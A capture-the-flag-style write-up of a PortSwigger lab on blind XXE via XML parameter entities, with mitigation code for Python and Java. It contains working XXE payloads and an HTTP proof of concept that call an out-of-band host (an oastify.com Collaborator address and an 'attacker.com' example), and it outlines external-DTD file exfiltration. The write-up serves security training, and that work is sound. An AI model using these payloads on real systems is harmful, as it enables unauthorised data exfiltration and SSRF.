


# Lab 04: Blind XXE with Out-of-Band Interaction via XML Parameter Entities

> **Topic**: XXE (XML External Entity) Injection
> **Lab Number**: 04
> **Platform**: PortSwigger Web Security Academy

## Category
XXE Injection — Blind XXE via XML Parameter Entity OOB Callback to Burp Collaborator

## Vulnerability Summary
The stock-check endpoint parses XML but blocks regular external entity references (`&xxe;`), returning `"XML parsing error"` when a standard `ENTITY xxe SYSTEM` payload is used. However, the parser still processes XML parameter entities declared in the DOCTYPE. By declaring a parameter entity (`%xxe`) pointing at a Burp Collaborator URL and referencing it inside the DOCTYPE (`%xxe;`), the server resolves the entity at parse time and triggers outbound DNS and HTTP interactions — confirming blind XXE via the parameter entity vector.

## Attack Methodology

### Step 1: Confirm Regular Entity Blocking
Attempted the standard XXE payload from Lab 03:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://<collaborator>" > ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Response: `"XML parsing error"` — the application detects and blocks general entity references in the document body.

### Step 2: Switch to XML Parameter Entities
Parameter entities (`%name`) are declared and referenced exclusively within the DOCTYPE, not in the document body. Many parsers and WAF rules that block `&entity;` in element content still process `%entity;` inside DTD declarations.

Injected the parameter entity payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://1cerb4xl25m04gi911lq29za3vu1mpcd1.oastify.com"> %xxe; ]>
<stockCheck>
    <productId>3</productId>
    <storeId>1</storeId>
</stockCheck>
```

Key differences from a general entity payload:
- `%` prefix declares a **parameter entity** (DTD-scope only)
- `%xxe;` references it **inside the DOCTYPE** — no `&xxe;` in the document body
- `productId` contains a normal value — nothing suspicious in the element content

Response: `"XML parsing error"` — but Collaborator received interactions regardless, meaning the parser resolved the entity before erroring out.



### Step 3: Confirm OOB Interaction in Collaborator
Polled Burp Collaborator and received 3 interactions:

| # | Type | Source IP |
|---|---|---|
| 1 | DNS | 34.245.82.42 |
| 2 | DNS | 99.80.34.113 |
| 3 | HTTP | 34.253.173.2 |

DNS lookup confirmed for `1cerb4xl25m04gi911lq29za3vu1mpcd1.oastify.com` — the server resolved the parameter entity and made outbound network requests. Lab solved.




## Technical Root Cause

The application's XXE mitigation only checks for general entity references (`&name;`) in the document body — a partial, pattern-based defence. The XML parser itself still processes the DOCTYPE declaration fully, including parameter entity resolution, before the application's validation logic runs.

```xml
<!-- General entity — blocked by application -->
<!ENTITY xxe SYSTEM "http://attacker.com">  ...  &xxe;

<!-- Parameter entity — processed by parser before app validation -->
<!ENTITY % xxe SYSTEM "http://attacker.com">  %xxe;
```

The `"XML parsing error"` response in both cases suggests the application may be catching a parse exception and returning a generic error — but the entity resolution (and the outbound network request) already happened before the exception was thrown.

## Impact
- **Bypasses Naive XXE Filters**: Any defence that only looks for `&entity;` patterns in element content is bypassed. Parameter entities are a standard XML feature and must be disabled at the parser level.
- **OOB Exfiltration Primitive**: With parameter entity OOB confirmed, the next step is a malicious external DTD that uses nested parameter entities to encode and exfiltrate file contents via DNS subdomains.
- **Same Blast Radius as Reflected XXE**: File read, SSRF, and credential theft are all achievable once OOB is confirmed — they just require an additional external DTD hosted on the attacker's server.

## Proof of Concept

```
POST /product/stock HTTP/2
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://<collaborator-id>.oastify.com"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Check Burp Collaborator for DNS and HTTP interactions.

## Key Takeaways
1. **Parameter Entities Bypass Body-Level Filters**: Defences that scan element content for `&entity;` patterns don't see `%entity;` references inside the DOCTYPE. The fix must be at the parser configuration level — not input validation.
2. **The Error Response Is a Red Herring**: `"XML parsing error"` looks like the payload failed. It didn't — the OOB interaction proves the entity was resolved before the error was thrown. Always verify with Collaborator even when the response looks like a rejection.
3. **Parameter Entities Are the Gateway to External DTD Exfiltration**: The standard blind data exfiltration technique requires parameter entities to load an external DTD, which then uses nested parameter entities to send file contents out-of-band. This lab confirms that prerequisite is met.
4. **Partial Mitigations Create False Confidence**: Blocking `&entity;` in the document body while leaving DTD processing enabled is not a fix — it's a filter bypass waiting to happen. Disable external entity and DTD processing entirely.

## Mitigation

```python
# Disable DTD processing entirely — blocks both general and parameter entities
parser = etree.XMLParser(resolve_entities=False, no_network=True, load_dtd=False)
tree = etree.fromstring(xml_data, parser)
```

```java
// Java — disallow DOCTYPE declarations completely
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

Disabling DOCTYPE processing at the parser level prevents both `&entity;` and `%entity;` resolution without needing to inspect or filter the XML content.

## References
- [PortSwigger XXE Lab — Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)
- [PortSwigger XXE — XML parameter entities](https://portswigger.net/web-security/xxe/blind#detecting-blind-xxe-using-out-of-band-oob-techniques)
- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, Collaborator)
- Chromium

---

*Lab completed on: 2026-05-15*
*Writeup by vibhxr*
